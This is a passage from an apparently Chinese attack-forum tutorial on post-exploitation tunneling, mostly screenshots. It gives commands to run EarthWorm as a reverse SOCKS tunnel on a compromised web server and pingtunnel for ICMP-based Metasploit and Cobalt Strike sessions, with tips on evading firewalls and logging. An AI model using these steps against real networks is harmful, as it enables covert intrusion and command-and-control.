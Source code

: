 ![62.jpg](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5778090782b062241d0bac835081adfb073ac6f2.jpg)

![063](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-aa0cafbf8e617244ca087c9e6ebc40776566aeca.jpg)

### 3 WEB服务器执行ew

```php
ew.exe -s rssocks -d 127.0.0.1 -e 9999
```

![064](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c2758b1bbbb98be1f8ad23b521234d498c3b54a2.jpg)

ew回显OK，隧道已打通！

![065](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b85606852844d50d3f6cc93d571d466d5b23e41e.jpg)

### 4 连接代理

使用proxifier设置代理

![066](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-63edbe54db067c90a9e386292aa683d0f73e0708.jpg)

远程桌面测试

![067](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a28f91dfc935584b2a0767c081284da25303b3d7.jpg)

远程桌面测试

![068](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bea07bbd96d54a54f41b4f7e48b4f61d8807fa93.jpg)

![069](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d170afab54664b3b7de4f2bc8af5e3003f0f2c55.jpg)

![070](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-350a992e01ed6dcf6988e48ffb4397e6cdaa06e5.jpg)

三、pingtunnel上线MSF&amp;amp;CS
----------------------------

### 1 pingtunnel下载链接

**注意，在客户端中运行一定要加noprint nolog两个参数，否则会生成大量的日志文件**

**由于ICMP为网络层协议，应用层防火墙无法识别，且请求包当中的数据字段被加密**

```php
https://github.com/esrrhs/pingtunnel/releases
```

### 2 v/ps服务端开启

```php
./pingtunnel -type server        ##开启服务器模式
```

回显0连接
